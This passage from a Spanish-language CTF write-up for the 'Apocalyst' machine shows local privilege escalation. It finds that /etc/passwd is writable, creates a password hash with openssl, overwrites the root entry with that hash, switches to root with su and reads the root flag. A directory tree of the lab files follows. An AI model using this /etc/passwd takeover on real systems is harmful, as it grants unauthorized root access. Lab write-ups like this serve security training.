Una vez que arreglamos la terminal Podemos revisar que el usuario *www-data* tiene permisos de escritura en el archivo **/etc/passw**

> find / -writable 2>/dev/null | grep -vE "/var/|/run|/tmp|/dev|/lib|/proc|/sys"

```console
/etc/passwd
```

Dado que tenemos permisos para modificar el **/etc/passwd** Creamos la contraseña *hola* con openssl para añadirla en **/etc/passwd**

> openssl passwd

```console
Password: hola
Verifying - Password: hola
YVRApXH.RgnuE
```

Y lo copiamos en la linea del usuario root

> nano /etc/passwd

```console
root:YVRApXH.RgnuE:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
falaraki:x:1000:1000:Falaraki Rainiti,,,:/home/falaraki:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
```

Ingresamos como root con la nueva contraseña *hola*
> su

```console
Password: 
root@apocalyst:/var/www/html/apocalyst.htb#
```

Y ya podriamos ver la flag de root

> root@apocalyst:/var/www/html/apocalyst.htb# cat /root/root.txt

```console
6d473e865d935e13bb8b088a2b12b396
```

## Fase de Escalación de Privilegios


## Estructura del directorio


```
Apocalyst
│   Readme.md   
│
└───nmap
│   │   allPorts
│   │   target
│   
└───content
│   │   users
│   │   diccionario.txt
│   │   image.jpg
│   │   list.txt
│   │   credentials.txt
│
└───exploits
│   │   ssh_enumeration.py
│
└───scripts
│
└───Images
    │   Apocalyst.png
    │   image01.png
    │   image02.png
    │   image03.png
    │   image04.png
    │   image05.png
    │   image06.png
    │   image07.png
    │   image08.png
    │   image09.png

```


